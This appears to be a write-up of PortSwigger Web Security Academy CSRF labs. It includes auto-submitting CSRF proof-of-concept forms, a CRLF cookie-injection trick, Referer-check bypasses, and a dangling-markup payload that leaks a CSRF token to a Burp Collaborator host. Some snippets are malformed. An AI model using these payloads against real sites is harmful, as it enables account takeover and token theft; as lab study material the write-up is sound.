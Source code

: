 
# Lab: CSRF where token validation depends on request method

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://aca21fc71f70a596802ed12c0003007e.web-security-academy.net/my-account/change-email?email=asdsad&#64;sadfgsdf&#46;comd" method="GET">
      <input type="hidden" name="email" value="asdsad&#64;sadfgsdf&#46;comd" />
      <input type="hidden" name="csrf" value="IFWKxYWLDSFyyoUe11vrWWTqAh4BWWcm" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```


# Lab: CSRF where token is not tied to user session

This lab does not validate the csrf token belong to the specific session, just that the csrf token is valid, this means that if we have a valid csrf token we can use it to achieve XSS and change email of another user with XSS (without his csrf token).

To apply this we simply click on change mail, log the interaction and look at the HTML to see the most recent (and still valid - unused) csrf token, with it we build an HTML with the CSRF exploit (that sends that csrf token) and send it to the victims computer


# Lab: Reflected XSS protected by CSP, with dangling markup attack

After a quick look around we notice that we can send to my-account a GET email parameter that is vulnerable to dangling markup attack (this was noticed because the email is sent in the change email request + the email tag has an empty value). 

Exploit this reflected XSS can be done like so:
```http
https://your-lab-id.web-security-academy.net/my-account?email="><table background='
```
This will allow us to create a malicious page and send it to the user, hopefully to get the csrf token back (which is below the email tag in the html)

```html
<script>
location='https://your-lab-id.web-security-academy.net/my-account?email=%22%3E%3Ctable%20background=%27//your-collaborator-id.burpcollaborator.net?';
</script>
```
After we got the request back from the user we get:
```html
/?">                            <input required type="hidden" name="csrf" value="N7NbGoKZPCGpo2AVtBK86u8qYb5dBlwl">                            <button class=
```
as the GET payload, this includes the csrf token and now we can use this token to construct an HTML page to the victim to change his email like so:
```html
<!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://ac331fe31eeb8b0580f50f0800f000d2.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="csrf" value="N7NbGoKZPCGpo2AVtBK86u8qYb5dBlwl" />
      <input type="hidden" name="email" value="asdsad&#64;sadfgsdf&#46;com&quot;" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>

```

# Lab: CSRF where token is tied to non-session cookie

Upon trying the update email functionality we notice that changing the csrfkey changes the csrf token - which means that the cookie and key are connected (and not the session)

if we log in the second account and change the mail with the csrf token + the csrfkey cookie of the first user, we successfully change the second user
's email. 

we will now create a malicious URL:
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://ac831ff81e51bb8e808ae49800460067.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="asdfasdf&#64;asfdgasdf" />
      <input type="hidden" name="csrf" value="SRSd3qRKNz6ML8fLJOI5LvaGHUn8jpjj" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
<img src="https://ac831ff81e51bb8e808ae49800460067.web-security-academy.net//?search=test%0d%0aSet-Cookie:%20csrfKey=your-key" onerror="document.forms[0].submit()">
    </script>
  </body>
</html>
```

This way we make sure we first set the cookie using the src and the (after not finding an image there) we submit the document and change the victim's email address

# Lab: CSRF where Referer validation depends on header being present

We first note that our email is changed as well if the referer header is omitted.

Next we will bypass the CSRF mitigation - referer check that checks the Referer by inserting meta tag like so:
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
<meta name="referrer" content="never">
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://acdf1f501ee6baae801726ef000200fe.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="asdfasdf&#64;asfdgasdf" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
This will prevent the following requests from this page to have a referer header and sucecessfully change the email

# Lab: Validation of Referer can be circumvented
We noticed using repeater that when sending a post request to change-email, the referer is validated by the server.

The validation was not perfect, however, the server accepted URLs ending with the valid referer. 
```python
# Valid Referer:
https://ac821f091e77d437805c064100ab0088.web-security-academy.net/my-account/
# Also valid Referer:
123123123https://ac821f091e77d437805c064100ab0088.web-security-academy.net/my-account/
```

Then we created a CSRF site using the burpsuite tool, making 2 minor changes:
Head:
```html
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Referrer-Policy: unsafe-url
```
Body:
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/?ac821f091e77d437805c064100ab0088.web-security-academy.net/my-account')</script>
    <form action="https://ac821f091e77d437805c064100ab0088.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="123123&#64;123123" />
      <input type="submit" value="Submit request" />
      <img src
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

